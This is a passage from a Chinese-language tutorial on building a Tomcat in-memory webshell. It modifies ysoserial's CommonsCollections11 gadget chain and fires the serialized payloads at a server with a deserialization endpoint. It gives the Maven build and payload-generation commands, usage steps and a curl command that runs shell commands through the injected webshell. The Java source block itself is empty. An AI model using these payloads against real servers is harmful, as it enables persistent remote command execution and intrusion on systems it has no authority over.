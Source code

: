 ```java
```

和第一个步骤创建的TomcatEchoInject不一样，这里我们不但基础了AbstractTranslet，还实现了Filter创建一个我们自定义的内存Webshell

最后，我们也按照第一个步骤那样，创建一个ysoserial的CommonsCollections11类的拷贝，名叫CommonsCollections11ForTomcatShellInject，并把其Gadgets.createTemplatesImpl(command[0])的调用改成Gadgets.createTemplatesImpl(null, TomcatShellInject.class)，这样，我们的Webshell payload就完成了。

通过执行maven打包


```bash
mvn clean -Dmaven.test.skip=true compile assembly:assembly
```

然后执行生成的jar


```bash
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections11ForTomcatShellInject > ~/tmp/TomcatEchoInject.ysoserial
```

就生成了CommonsCollections11ForTomcatShellInject的payload了

### 0x03 测试

上一节中，我们生成了两个payload，接下来，我们启动一个具有commons-collections:commons-collections:3.2.1依赖的服务端，并且存在反序列化的接口。

然后我们把步骤一和步骤二生成的payload依次打过去

![](images/15893688709431.png)


![](images/15893688744552.png)


可以依次看到，两个步骤都返回500异常，相关信息证明已经执行反序列化成功了，接下来我们试试这个内存Webshell

![](images/15893688823321.png)


![](images/15893688860942.png)


完美，具体ysoserial改造后的代码，我已经上传到github，有兴趣可以看看 ianxtianxt/ysoserial

#### 使用方法

Tomcat通杀回显-内存webshell

例：


```bash
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar
CommonsCollections11ForTomcatEchoInject > echo.payload
```

然后使用上述得到的恶意序列化数据echo.payload攻击一遍，然后再继续下面的操作


```bash
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar
CommonsCollections11ForTomcatShellInject > shell.payload
```

使用恶意序列化数据shell.payload再攻击一遍，可以得到一个内存级的webshell，任意路径，参数threedram为命令


```bash
curl http://127.0.0.1:8080/aaa\?threedr3am\=ls%20/
```

**参考链接**

https://xz.aliyun.com/t/7388#toc-3